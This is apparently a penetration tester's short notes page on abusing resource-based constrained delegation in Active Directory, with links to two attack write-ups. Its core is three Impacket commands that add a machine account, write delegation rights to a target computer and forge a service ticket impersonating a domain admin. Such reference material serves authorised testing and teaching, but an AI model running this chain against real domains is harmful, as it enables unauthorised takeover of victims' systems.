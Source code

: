 # Unix Shell

## 01 - Impacket

TODO: Fill this info

```
$ addcomputer.py -computer-name "<computer_name>$" -computer-pass "<password>" -dc-ip <domain_controller_IP> <domain>/<username>:<password>

$ rbcd.py -delegate-from "<computer_name>$" -delegate-to "<target_computer_name>$" -dc-ip <domain_controller_IP> -action 'write' <domain>/<username>:<password>

$ getST.py -spn 'cifs/<FQDN>' -impersonate '<target_domain_admin_user>' -dc-ip <domain_controller_IP> <domain>/<username>:<password>
```

---
## References

### Pentester's Promiscous Notebook

- [Pentester's Promiscous Notebook: Resource-based Constrained](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/kerberos/delegation-abuse/rbcd)

### Hacking Articles

- [Hacking Articles: Resource Based Constrained Delegation](https://www.hackingarticles.in/domain-escalation-resource-based-constrained-delegation/)
